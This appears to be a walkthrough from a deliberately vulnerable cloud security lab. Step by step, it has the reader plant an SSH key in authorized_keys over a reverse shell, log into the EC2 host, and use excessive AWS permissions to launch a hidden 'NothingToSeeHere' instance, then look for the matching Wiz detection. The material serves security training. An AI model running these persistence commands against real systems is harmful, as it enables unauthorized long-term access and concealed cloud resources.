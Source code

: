 # 🔥 Vulnerable Labs: Persistence Pays Off!
*A deliberately insecure application for security education and demos*

---

## 💀 About the Challenge

In this exercise you'll learn how to leverage excessive permissions and misconfigurations to gain persistence in a cloud environment.

Mitre ATT&CK defines persistence as techniques to allow adversaries to maintain their access to systems and devices across restarts and other interruptions. 


### 🎯 Your Mission

1. Ensure your reverse shell is still active. You can re-run the reverse shell commands from [2-Reverse-Shell.md](2-Reverse-Shell.md) if needed.
2. On your laptop, open a terminal and run the following command to generate a new SSH keypair:
```bash
ssh-keygen -t rsa -f attacker_key
```
3. Update the permissions on the generated keys 
```bash
chmod 0600 attacker_key*
```
4. Run the following command to obtain the attacker_key public key. Note it down as you'll need this shortly.
```bash
cat attacker_key.pub
```
5. Using the reverse shell terminal, run the following commands What do you see? - A read/write mapped drive that includes the ssh folder containing the authorized_keys file.
```bash
ls /flappy
ls -alh /flappy/mapped_drive
ls -alh /flappy/mapped_drive/.ssh
```
6. Run the command using the output from step 3 to add your newly generated public key to the authorized key file on the .
```bash
echo "public key from Step 4" >> /flappy/mapped_drive/.ssh/authorized_keys
```
7. Run the command to get the IP address of the WebServer EC2 instance (this should match the Public IP in the AWS console):
```bash
apt update && apt install -y curl jq && curl ipconfig.io
```
8. SSH to the EC2 instance directly:
```bash
ssh -i attacker_key ubuntu@ip_address
```
At this point we've gained persistence to the underlying EC2 host. But what if the host is shut down or terminated? Let's now spin up a shadow EC2 instance using excessive AWS permissions.

9. Run the following commands to install jq and the AWS CLI:
```bash
curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip" && unzip awscliv2.zip && ./aws/install && aws sts get-caller-identity
```

10. Run the following command to launch a new shadow EC2 instance:
```bash
aws ec2 run-instances \
    --instance-type t2.micro \
    --image-id ami-0aa2b7722dc1b5612 \
    --subnet-id $(aws ec2 describe-subnets --query "Subnets[?MapPublicIpOnLaunch].SubnetId | [0]" --output text) \
    --tag-specifications 'ResourceType=instance,Tags=[{Key=Name,Value=NothingToSeeHere}]' \
    --associate-public-ip-address
```


Congratulations, you've completed this challenge. Can you now find the corresponding detection in Wiz? How long did it take to appear in the console?

### 💥 Hints & Tips

Note: Don't forget to substitute:
- ip_address in Step 8 for the IP address output from Step 7.
